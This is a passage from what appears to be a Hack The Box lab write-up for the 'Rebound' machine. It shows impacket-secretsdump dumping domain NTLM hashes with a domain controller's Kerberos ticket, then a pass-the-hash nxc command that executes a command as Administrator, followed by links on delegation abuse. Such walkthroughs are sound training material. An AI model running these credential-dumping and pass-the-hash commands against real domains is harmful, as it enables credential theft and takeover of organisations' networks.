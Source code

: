 ### Dump Hashes

With this ticket as the `DC01$` account, we can dump hashes from the `DC`:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ KRB5CCNAME='DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache'

┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-secretsdump -no-pass -k 'dc01.rebound.htb' -just-dc-ntlm
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:[HASH_REDACTED]:[HASH_REDACTED]:::
```

#### Collecting Root Flag

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ nxc smb rebound.htb -u Administrator -H '[HASH_REDACTED]' -x 'type C:\Users\Administrator\root.txt'
SMB         10.129.232.31    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.232.31    445    DC01             [+] rebound.htb\Administrator:[REDACTED] (Pwn3d!)
SMB         10.129.232.31    445    DC01             [+] Executed command via wmiexec
                                                     23b55436e7513l3463f8b1abc34c2360
```

### Important Resources

- [Windows is and always will be a Potatoland](https://www.r-tec.net/r-tec-blog-windows-is-and-always-will-be-a-potatoland.html)

- [Constrained Delegation without Protocol Transition](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained#without-protocol-transition)

- [Abusing RBCD to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#when-accounts-collude---trustedtoauthfordelegation-who)
